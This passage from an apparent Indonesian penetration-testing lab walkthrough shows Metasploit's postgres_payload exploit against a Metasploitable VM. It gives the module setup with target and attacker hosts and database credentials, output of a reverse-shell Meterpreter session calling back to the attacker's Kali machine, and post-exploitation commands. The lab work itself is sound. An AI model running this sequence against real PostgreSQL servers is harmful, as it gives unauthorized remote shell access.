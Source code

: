 ```
   16    \_ target: Linux x86                                                                    .                .          .      .
   17    \_ target: Linux x86_64                                                                 .                .          .      .
   18  exploit/windows/postgres/postgres_payload                                                 2009-04-10       excellent  Yes    PostgreSQL for Microsoft Windows Payload Execution
   19    \_ target: Windows x86                                                                  .                .          .      .
   20    \_ target: Windows x64                                                                  .                .          .      .
```

- Memilih dan mengatur eksploitasi
```
use exploit/linux/postgres/postgres_payload
set RHOSTS <ip_metasploitable>
set LHOST <ip_kali_linux>
set USERNAME <username_psql>
set PASSWORD <password_psql>
```
- Cek _requirement_, pastikan tidak ada yang kurang atau terlewat
```
show options
```
- Jika sudah lengkap, jalankan serangan
```
exploit
```

```
*] Started reverse TCP handler on 192.168.175.235:4444 
[*] 192.168.175.90:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
[*] Uploaded as /tmp/ZPGWeSoT.so, should be cleaned up automatically
[*] Sending stage (1017704 bytes) to 192.168.175.90
[*] Meterpreter session 1 opened (192.168.175.235:4444 -> 192.168.175.90:49232) at 2025-08-15 02:01:59 -0400

meterpreter >
```

**4. _Maintaining accsess dan Post exploitation_**
- Mencari informasi sistem
```
meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: postgres
```
